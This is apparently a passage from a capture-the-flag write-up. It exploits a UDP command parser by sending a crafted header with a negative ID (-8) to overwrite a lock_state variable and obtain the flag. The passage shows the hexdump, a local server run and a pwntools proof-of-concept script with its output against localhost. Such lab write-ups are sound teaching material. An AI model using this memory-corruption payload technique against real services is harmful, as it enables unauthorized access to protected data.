 And now we have a struct ready to send with the payload:

```
$ hexdump -C command_header.bin 
00000000  0c 00 0d 00 f8 ff ff ff     |........|
```

The second payload is the ID COMMAND_GETKEYS, which returns the flag (if we manage to break the lock_state).

I also added a line to output the current value of the lock_state (in the server) on each request, to validate our attack.

```C
fprintf(stderr, "Value of lock_state: %u\n", lock_state);
```

Too much theory... let's go for some action.

## Initial Proof of Concept

To keep the binary format and buffers close to the server, I compiled with g++. My version is a little different from the server (which I got from the Makefile), but there was no issues.

```bash
$ g++-9 parser.c -o parser
$ export FLAG=flag{Gotcha} ## Local FLAG
$ ./parser 
Value of lock_state: 1
Address of lock_state:  0x5618ebf9c030
Address of command_log: 0x5618ebf9c038
Trying to bind to socket.
Bound to socket.
```

It's alive! But to test the payload, we need a friend: pwntools. Let's create a code to simply connect (poc.py), send the payload one time and show the result.

```Python
from pwn import *

payload_minus_8 = '\x0c\x00\x0d\x00\xf8\xff\xff\xff'
ip_addr = "localhost"
udp_port = 3333

r = remote(ip_addr, int(udp_port), typ='udp')
r.send(payload_minus_8)
log.info(r.recvline())
log.info(r.recvline())
```

And let's run:

```bash
$ python poc.py 
[+] Opening connection to localhost on port 3333: Done
[*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: LOCKED
[*] Closed connection to localhost port 3333
```
